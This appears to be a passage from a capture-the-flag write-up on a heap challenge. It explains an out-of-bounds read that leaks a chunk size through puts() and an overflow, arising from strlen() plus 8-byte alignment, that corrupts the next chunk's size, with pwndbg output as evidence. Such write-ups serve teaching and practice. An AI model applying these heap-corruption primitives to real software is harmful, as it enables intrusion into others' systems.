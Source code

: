 *(NOTE: Press ctrl-d to send the data without sending a `\x0A` (newline) with it)*



###### Read out of bounds

From static analysis, the player knows that `Admire garbage` calls `puts()` on the `chunk`, which would look like the following:

```
Mallocs: 2
1) Add new garbage bag
2) Admire garbage
3) Fill garbage bag
> 2
Which garbage bag do you want to look at:
0
AAAAAAAAAAAAAAAAAAAAAAAA!
```

Notice the `!`. That's the `chunk` size field of `malloc index[1]` that is read from `puts()`, as it will simply read up until the first `null-byte`. Coupled with the `write out of bounds` primitive, this becomes very powerful.



###### Write out of bounds

From reverse engineering, the player also knows that `Fill garbage bag` calls `strlen()` and adds `8-byte alignment` (presumably because `malloc()` `8-byte aligns` data so the users don't waste space).
But since the `chunk` is aligned right up next to the `size` field of the next `chunk`, `strlen()` will include it when measuring the length of the `chunk` data, and because of the `8-byte alignment`, that means the player can write `32` bytes instead of `24` bytes to `malloc index[0]`, which allows the player to overflow in to the following chunk.

This can be seen by editing entry `0` in the `malloc index`:

```
pwndbg> c
Continuing.
Mallocs: 2
1) Add new garbage bag
2) Admire garbage
3) Fill garbage bag
> 3
Which garbage bag do you want to add to:
0
What are you throwing out:
CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCMallocs: 2
1) Add new garbage bag
2) Admire garbage
3) Fill garbage bag
> ^C
[...]
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x55555555a000
Size: 0x291

Allocated chunk | PREV_INUSE
Addr: 0x55555555a290
Size: 0x21

Allocated chunk | PREV_INUSE | IS_MMAPED
Addr: 0x55555555a2b0
Size: 0x4343434343434343
```
